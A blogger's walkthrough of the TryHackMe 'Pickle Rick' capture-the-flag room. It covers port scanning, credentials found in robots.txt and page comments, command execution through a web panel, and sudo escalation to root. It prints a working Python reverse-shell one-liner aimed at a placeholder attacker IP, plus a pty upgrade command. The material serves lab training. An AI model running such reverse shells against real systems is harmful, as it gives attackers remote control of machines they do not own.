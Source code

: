 ```yaml
---
title: "Try Hack Me - Pickle Rick Walkthrough"
date: 2022-07-24 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, beginner]
---
```

![Rick being cool.](https://imgur.com/BkKtAkO.png)

[![Youtube Walkthrough Part 1](http://img.youtube.com/vi/vHnFwsF0gu4/0.jpg)](https://youtu.be/vHnFwsF0gu4)

[Link to Pickle Rick Room]()(https://tryhackme.com/room/picklerick)


This is an old room on Try Hack Me. At the time I am writing this walkthrough it has been released for almost 4 years!
This room is also a CTF (Capture the Flag) room which means that it is not a "Real World" experience. Instead it is meant to help us practice our skills.

# Scanning the Host
First we will scan the host. I like to use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

I create a new folder for the room and then a command that looks like:
```bash
sudo python3 /tool_repos/AutoRecon/autorecon.py <xx.xx.xx.xx> --dirbuster.threads=100 -o /path/to/box_folder && sudo chown -R <user>:<user> /path/to/box_folder
```
Ok let me explain that command:
- `sudo python3` - I use `sudo` because some of the tools autorecon uses need to be run as `root`. The problem with this is any files created are owned by `root`. (We will fix this in a second.)
- `/tool_repos/AutoRecon/autorecon.py` - I always create a directory on my kali boxes to store all the tools I `git clone` from github. (Even better if you have NFS storage your home lab, use that to mount the folder with all the tools you like. Then whenever you need to rebuild your kali box you mount the folder and all your tools are ready to go.)
- `<xx.xx.xx.xx>` - This is just a placeholder for the IP of the box you are scanning.
- `--dirbuster.threads=100` - How many dirbuster threads you want to allocate. This is an important setting. A higher number of threads helps the scan get done faster.
- `-o /path/to/box_folder` - This is the output path for the results of the scans.
- `&& sudo chown -R <user>:<user> /path/to/box_folder` - This is some magic I add to the end of the scan.
    - The `&&` just means run the next command if the previous command was successful
    - Because we used `sudo` all the files created are owned by root. So we use `sudo` here to change ownership back to us.
    - We use a recursive `chown` to set the owenership of the files back to our 'regular' user.
    - Just replace both `<user>` spots with the name of your user.

# Scan Results
After running `autorecon` we see that there are only 2 ports open:
- tcp 22 (SSH)
- tcp 80 (HTTP)

Lets's take a look at port 80.
It's important to remember that autorecon with run a ton of `NMAP` scripts against the ports it finds before we jump into a web browser and look at the page let's examine what it found.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-chrono: Request times for /; avg: 578.44ms; min: 566.60ms; max: 605.38ms
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
```
First we see that there is a `robots.txt` file these can contain some good information. Let's check it out.
- You can learn more about `robots.txt` files [HERE](https://moz.com/learn/seo/robotstxt)
- The only thing we find is: `Wubbalubbadubdub`
- `NMAP` is also telling us it found `login.php`, we will have to remember to come back to that.

NOTE: I have learned with CTFs to always note strange discoveries like this, they are usually not there by accident.

Here is the next interesting finding in from the `NMAP` scan:
```
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.210.147
|
|     Path: http://10.10.210.147:80/
|     Line number: 28
|     Comment:
|         <!--
|
|             Note to self, remember username!
|
|             Username: R1ckRul3s
|
|           -->
```
We should always check to HTML comments in the page source, but `NMAP` will do it for us! (To my shame, it took me a while to realize that `autorecon` was running this `NMAP` script against HTTP ports.)

So now we have a username too: `R1ckRul3s`

# Login Page
Time to check out the discovered login page.
![](/assets/images/pr_login.jpg?raw=true)

We have a username and what could be a password, let's try it!

![](/assets/images/command_panel.jpg?raw=true)

It worked! Now I really want to play with that `Command Panel`, but let's take some time to look at the tabs on the page.

All the tabs say that only the "REAL" Rick can view the pages. This may mean that are only logged in as a low level user and need a different login to view the other pages.

Ok time to play with `Command Panel`, and it looks like we have direct code execution on the box.

![](/assets/images/rce.jpg?raw=true)

But not for everything, when we try: `cat /etc/passwd` we get:

![](/assets/images/no_rce.jpg?raw=true)

If we run `pwd` we see that we are in `/var/www/html` and if we run `ls -lah` we see some files we did know about, `index.html` and `login.php` and some we didn't. Let see if we can navigate directly to these new files.

![](/assets/images/file_list.jpg?raw=true)

And we find the answer for "the first ingredient" in the file: `Sup3rS3cretPickl3Ingred.txt`

![](/assets/images/flag1.jpg?raw=true)

`clue.txt` tells us that we need to look around the filesystem some more.

We always want to know what users are on a system so let's `ls -lah /home`

![](/assets/images/pr_home.jpg?raw=true)

We see 2 users, `ubuntu` and `rick` and rick's permissions are wide open so let's explore his home directory.
But after I looked around for a while longer I didn't find much. I think it's time to pop a shell on this box.
First let's see if we can use python3:

![](/assets/images/python_v.jpg?raw=true)

Now that we know that python3 executes we can try to pop a shell!
Let's try this one. DON'T FORGET TO CHAGNE YOUR HOST IP AND PORT in the command! :)  

By the way, I tried few different reverse shells. The one below may not always work, but it did here. Many times you will have to experiment to discover with will work on a given box.  

```bash
export RHOST="xx.xx.xx.xx";export RPORT=xxxx;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
And once we get our shell, let's 'upgrade' it:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now we can go get the answer to the 2nd question! 

![](/assets/images/flag2.jpg?raw=true)

So now we have a "foothold" on the box, it's time to do some privesc (priviledge escalation)

I like to use [LSE](https://github.com/diego-treitos/linux-smart-enumeration) (Linux Smart Enumeration) tool when enumerating a system for possible privesc points.

BUT, before we do all that we should just check to see if our user has `sudo` privleges. Which in the real world the `www-data` user should never have! 
So we try `sudo -l` which should tell us what privleges the user has. 

![](/assets/images/pr_root.jpg)

Wow, we can run ALL commands as `root` with no password!! 

Looks like Rick likes to live dangerously!

You can either use `sudo` in front of all your commands or just switch to  `root` with `sudo su`

Now you can get the answer to the third question in the `/root` directory! 




